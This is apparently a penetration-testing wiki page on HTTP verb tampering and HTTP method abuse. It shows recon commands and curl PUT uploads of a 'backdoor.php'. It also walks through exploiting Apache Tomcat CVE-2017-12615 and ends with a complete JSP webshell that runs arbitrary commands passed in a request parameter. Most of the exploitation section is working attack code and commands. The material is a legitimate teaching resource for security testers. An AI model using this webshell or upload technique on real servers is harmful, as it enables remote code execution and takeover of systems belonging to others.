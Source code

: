 # HTTP methods

## Theory

### Verb tampering

Some websites filter access to resources but fail at filtering out all HTTP methods. When an attacker tries to access a resource with different methods (GET, POST, HEAD, etc.) to bypass the access control, this is called HTTP verb tampering.

### Methods abuse

Some HTTP methods can be used for malicious purposes: `PUT`, `DELETE`, etc. The HTTP methods abuse is not aimed at gaining access to a specific page like verb tampering but more like what methods are accepted by the server and how can an attacker profit from those.

## Practice

### Recon

Testing for HTTP verb tampering and method abuse can be done with [httpmethods](https://github.com/ShutdownRepo/httpmethods).

```bash
httpmethods -u "https://target.url/"
httpmethods -u "https://target.url/restricted_page"
```

A manual HTTP request with the `OPTIONS` method can also be used to enumerate what methods are supported. This works if the `OPTIONS` methods is allowed in the first place.

```bash
curl --include --request OPTIONS "https://target.url/"
```

### Abusing the `PUT` method

The `PUT` method can be used to upload arbitrary files. Some directories have different rights, it can be useful to test the method on a wide range of directories.

```bash
curl --include --upload-file "backdoor.php" "https://target.url/"
```

### Apache Tomcat JSP PUT - CVE-2017-12615

Abusing the `PUT` method also applies to CVE-2017-12615: When running Apache Tomcat 7.0.0 to 7.0.79 on Windows with HTTP PUTs enabled (e.g. via setting the read-only initialization parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server.

Exploitation of this vulnerability can be achieved manually by creating a `.jsp` file and by uploading it to the target server.


```java
<% out.write("<html><body><h3>JSP upload successfully</h3></body></html>"); %>
```


```bash
curl --include --upload-file "test.jsp" "https://target.url/"
```

If the upload is successful, the following JSP webshell ([source](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp)) can then be uploaded to attempt at execute arbitrary commands on the remote server.


```java
<%@ page import="java.util.*,java.io.*"%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```
